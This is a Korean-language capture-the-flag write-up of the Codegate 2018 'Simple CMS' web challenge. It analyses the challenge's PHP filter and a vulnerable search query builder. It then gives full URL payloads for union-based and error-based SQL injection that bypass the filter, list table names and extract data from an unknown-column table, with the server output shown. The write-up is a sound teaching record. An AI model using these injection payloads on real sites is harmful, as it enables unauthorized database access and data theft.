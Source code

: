 # [WEB] Codegate 2018 Quals - Simple CMS

## Description

Just Source File

[Download](https://s3.ap-northeast-2.amazonaws.com/codegate2018/fbbc0672fb3688a554ddb76e95c4971b)

## Analysis

문제에서 Simple CMS설치를 할 수 있는 소스를 다운받을 수 있다.

소스를 열어보면 `simple_cms.sql`파일안에 플래그가 박혀있는 것을 확인할 수 있다.

```sql
INSERT INTO `{table_prefix}flag` (`{blind_column}1`, `{blind_column}2`, `{blind_column}3`, `{blind_column}4`) VALUES
('', '', 'flag{flagflagflagffagflaglfaglfag}', '');
```

결국 인젝션 문제인 것 같다.

기본적으로 이 문제는 `functions/waf.php` 파일에 의해 필터링이 되어진다.

```php
if(!defined('simple_cms')) exit();

$method = $_SERVER['REQUEST_METHOD'];

if($method !== 'GET' && $method !== 'POST'){
  exit('are you hacker?');
}

$filter_str = array('or', 'and', 'information', 'schema', 'procedure', 'analyse', 'order', 'by', 'group', 'into');

function escape_str($array)
{
  if(is_array($array)) {
    foreach($array as $key => $value) {
      if(is_array($value)) {
        $array[$key] = escape_str($value);
      } else {
        $array[$key] = filter($value);
      }
    }
  } 
  else {
    $array = filter($array);
  }
  return $array;
}
function filter($str){
  global $filter_str;

  foreach ($filter_str as $value) {
    if(stripos($str, $value) !== false){
      die('are you hacker?');
    }
  }
  return addslashes($str);
}

$_GET = escape_str($_GET);
$_POST = escape_str($_POST);
$_COOKIE = escape_str($_COOKIE);
$_REQUEST = escape_str($_REQUEST);	
```

SQL관련 문자열 필터링은 별거 없지만 addslashes가 추가되어 quote(')를 사용할 수 없다.

취약한 부분을 찾던 중 누가봐도 취약한 소스를 발견하였다.

`classes/Board.class.php:24` 

```php
function action_search(){
  $column = Context::get('col');
  $search = Context::get('search');
  $type = strtolower(Context::get('type'));
  $operator = 'or';

  if($type === '1'){
  	$operator = 'or';
  }
  else if($type === '2'){
  	$operator = 'and';
  }
  if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
  	$column = 'title';
  }
  $query = get_search_query($column, $search, $operator);
  $result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
  include(CMS_SKIN_PATH . 'board.php');
}
```

`functions/lib.php:16`

```Php
function get_search_query($column, $search, $operator){
	$column = explode('|', $column);
	$result = '';
	for($i=0; $i<count($column); $i++){
		if(trim($column[$i]) === ''){
			continue;				
		}
		$result .= " LOWER({$column[$i]}) like '%{$search}%' {$operator}";
	}
	$result = trim(substr($result, 0 , strrpos($result, $operator)));
	return $result;
}
```

col 인자로 받는 값은 Quote안에 들어가지 않고 괄호에 들어가는데 col의 경우 필터링이 매우 빡세다.

하지만 우리는 #을 쓸 수가 있다.

이를 이용하여 인젝션을 할 수 있었다.

## Exploit

### SQL Injection - Unintended solution

col에 #을 넣고 search에 개행문자(%0a)를 삽입하여 보내게 되면 다음과 같이 쿼리가 만들 수 있다.

```
​~~~~ LOWER(0#) like '%
) && 1 #%'
```

이제 union을 이용해 테이블을 뽑아보자.

information_schema를 못쓰니 mysql의 innodb_table_stats를 사용하자.

```
http://13.125.3.183/?act=board&mid=search&col=%23|&type=1&search=%0a0)%20union%20select%201,database_name,table_name,table_name,5%20from%20mysql.innodb_table_stats%20%23

idx	title	id
1	mysql	gtid_executed
1	simple_cms	41786c497656426a6149_board
1	simple_cms	41786c497656426a6149_flag
1	simple_cms	41786c497656426a6149_users
1	sys	sys_config
```

하지만 컬럼은 알아내는 것이 불가는하기에 컬럼을 모르는 상태에서 데이터를 뽑아야한다.

최종적으로 완선된 쿼리는 다음과 같다.

```
http://13.125.3.183/?act=board&mid=search&col=%23|&type=1&search=%0a0)%20union%20select%201,2,1,a,1%20from%20(select%201,2,3%20a,4%20union%20select%20*%20from%2041786c497656426a6149_flag%20limit%201,1)a%23

idx	title	id
1	2	flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}
```



**flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}**



### Error based SQL Inection - Intended Solution

이 부분은 대회 끝나고 로컬에서 테스트하였다.

원래 mysql 데이터 베이스는 권한때문에 사용이 불가능한데, 이번 문제는 root로 구현되서 사용할 수 있었던 것 같다.

mysql 데이터 베이스를 사용하지 않고 Mysql Trick을 이용해 Error기반으로 테이블 명을 추출할 수 있다.

```
mysql> select * from 36796d6e43576648344a_board where LOWER(1)^exp(~id);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(`codegate_cms`.`36796d6e43576648344a_board`.`id`))'

mysql> select * from 36796d6e43576648344a_board where LOWER(1)^id-~1;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((<cache>(lower(1)) ^ `codegate_cms`.`36796d6e43576648344a_board`.`id`) - <cache>(~(1)))'
```

```
http://10.211.55.4/cms/index.php?act=board&mid=search&col=%23&type=1&search=%0a1)^exp(~id)%23

DOUBLE value is out of range in 'exp(~(`codegate_cms`.`36796d6e43576648344a_board`.`id`))'

http://10.211.55.4/cms/index.php?act=board&mid=search&col=%23&type=1&search=%0a1)^id-~1%23

ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((<cache>(lower(1)) ^ `codegate_cms`.`36796d6e43576648344a_board`.`id`) - <cache>(~(1)))'
```

테이블의 prefix는 고정으므로 flag의 테이블은 `36796d6e43576648344a_flag` 임을 알 수 있다.

그 후에는 테이블 명이 몰라도 뽑을 수 있는 방법으로 뽑아주면 된다.

```
http://10.211.55.4/cms/index.php?act=board&mid=search&col=%23&type=1&search=%0a0)%20union%20select%201,2,3,a,5%20from%20(select%201,2,3%20a,4%20union%20select%20*%20from%2036796d6e43576648344a_flag%20limit%201,1)a%23

idx	title	id
1	2	flag{flagflagflagffagflaglfaglfag}
```


